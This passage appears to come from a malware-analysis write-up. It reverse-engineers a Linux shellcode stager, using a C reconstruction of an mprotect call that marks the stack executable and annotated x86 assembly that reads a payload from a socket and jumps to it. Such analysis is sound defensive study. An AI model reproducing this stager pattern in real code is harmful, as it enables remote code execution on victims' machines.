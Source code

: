 ![Figure 15: Synopsis of mprotect function.](https://raw.githubusercontent.com/darksys0x/darksys0x.github.io/master/_posts/imgs/Tmp_txt/Untitled%2015.png)

Figure 15: Synopsis of mprotect function.

The call to *mprotect* may look like this:

```c
int hamad = mprotect(&s, 4096, PROT_EXEC | PROT_READ | PROT_WRITE);
if(hamad >= 0)
    exit(1);
```

The address of variable `s` (socket) is passed in the first argument because it is the top of the stack in C  code. The malware author could’ve created space for a buffer on the stack but chose not to.  The next step for the malware is to put the shellcode on stack and execute it.

---

### Call to read function

```wasm
pop     ebx
mov     ecx, esp
cdq
mov     dl, 6Ah ; 'j'
mov     al, 3
int     80h             ; 3 = sys_read
test    eax, eax
js      short loc_80480C3
jmp     ecx
```

- `pop ebx` will pop the last pushed value on the stack and store it in *ebx*. In this case, it is the stocket (variable `s` from code examples).
- `mov ecx, esp` will move the address in esp to ecx. This is for the second argument for output.
- `cdq` will copy the sign bit, i.e., the last bit of *eax* register to edx. This sign bit here will be 0 because *eax* is 0.
- `mov dl, 6Ah` The edx register will hold **106** value for the buffer size, and this is the third argument.
- `mov al, 3` will move the syscall number **3** (read) into *eax*.
- `int 80h` will execute the read syscall and put the result in *eax*. Since the first argument (*ebx*) is the socket, this means it is reading from the socket.
